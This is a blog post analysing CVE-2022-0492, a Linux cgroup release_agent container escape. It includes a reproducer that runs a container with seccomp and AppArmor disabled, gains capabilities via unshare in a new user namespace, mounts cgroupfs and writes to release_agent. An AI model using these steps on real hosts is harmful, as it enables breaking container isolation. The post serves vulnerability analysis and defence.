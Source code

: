 ```yaml
---
layout: post
title: "CVE-2022-0492: how release_agent escape become a vulnerability "
description: "CVE-2022-0492"
category: 技术
tags: [漏洞分析, 容器逃逸]
---
```

{% include JB/setup %}

The cgroup release_agent escape is a classical user mode helper escape issue several years ago. Recently it has a CVE and become popular. At first glance I don't know why and has little time to dig into the issue why it has a CVE now. After read [Yuval Avrahami](https://twitter.com/yuvalavra)'s post [New Linux Vulnerability CVE-2022-0492 Affecting Cgroups: Can Containers Escape](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/) and discussed with him I found there are a lot of things after CVE-2022-0492 so I decide make a post.



<h3> CVE-2022-0492 </h3>

In previous release_agent escape, we need to add CAP_SYS_ADMIN capability to the container. CVE-2022-0492 shows us that we can mount cgroupfs in new userns and then write to the release_agent file. Following is the reproducer.

The docker doesn't give CAP_SYS_ADMIN to container.

        root@ubuntu:/home/test# docker run --rm -it --security-opt seccomp=unconfined --security-opt apparmor=unconfined ubuntu bash
        root@26604070fc87:/# cat /proc/self/status | grep Cap
        CapInh:	00000000a80425fb
        CapPrm:	00000000a80425fb
        CapEff:	00000000a80425fb
        CapBnd:	00000000a80425fb
        CapAmb:	0000000000000000


        test@ubuntu:~$ capsh --decode=00000000a80425fb
        WARNING: libcap needs an update (cap=40 should have a name).
        0x00000000a80425fb=cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap

Then in the container we execute unshare to create new user namespace and cgroup namespace. Then we can mount the cgroupfs and write our data to release_agent.

        root@26604070fc87:/# unshare -UrmC bash
        root@26604070fc87:/# cat /proc/self/status | grep Cap
        CapInh:	0000000000000000
        CapPrm:	000001ffffffffff
        CapEff:	000001ffffffffff
        CapBnd:	000001ffffffffff
        CapAmb:	0000000000000000
        root@26604070fc87:/# mount -t cgroup -o rdma cgroup /mnt
        root@26604070fc87:/# ls /mnt
        cgroup.clone_children  cgroup.procs  cgroup.sane_behavior  notify_on_release  release_agent  tasks
        root@26604070fc87:/# echo "test" > /mnt/release_agent 
        root@26604070fc87:/# cat /mnt/release_agent 
        test
